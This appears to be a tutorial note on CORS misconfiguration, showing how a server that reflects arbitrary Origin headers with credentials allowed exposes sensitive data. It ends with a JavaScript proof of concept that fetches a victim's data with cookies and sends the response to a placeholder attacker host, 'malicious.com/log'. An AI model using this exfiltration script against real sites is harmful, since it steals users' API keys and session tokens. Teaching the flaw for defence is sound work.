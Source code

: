 ```js
Access-Control-Request-Headers: special-request-header
``` 
response
```js
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com  
Access-Control-Allow-Methods: PUT, POST, OPTIONS  
Access-Control-Allow-Headers: Special-Request-Header  
Access-Control-Allow-Credentials: true  
Access-Control-Max-Age: 240
```

# vulnerability Arise from CORS configuration issue.
 
## server-generated ACAO(access-control-allow-origin) header from client-specified origin header
- some application need to provide access to a number of other domains. 
- Maintaining a list of allowed domains require ongoing effort and Mistakes risk breaking functionality.
- so some applications take the easy route of effectively allows access from any other domain.

one simple method is read `origin` header form request and including a response header stating that the requesting origin is allowed access from any other domain
```js
GET /sensitive-info HTTP/1.1
Host: vuln-web.com
Origin: http://malicious-web.com
Cookie: sessionod=2354654edfg
```
responded with
```js
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://malicious-web.com
Access-Control-Allow-Credentials: true
```

- these header state that access is allows from the requesting domain(`malicious.com`) and that the cross-domain request can include cookies.
- since the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. 
- if response contain some `sensitive info` such as `API keys or CSRF token`, we retrieve them by crafting special script and Host in `malicious.com`
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://vuln-web.com/senditive-info',true);
req.withCredentials = true;
req.send();

function reqListener(){
location='//malicious.com/log?key='+this.responseText;
};
```
- `Note:` here this is same as CSRF, in CSRF attack we execute some operation from the user, in `CORS` we just forcefully request some data with our `attacker.domain origin header` so we retrieve the response from and steal sensitive info of the victim such as `API key, CSRF token, Auth token etc`

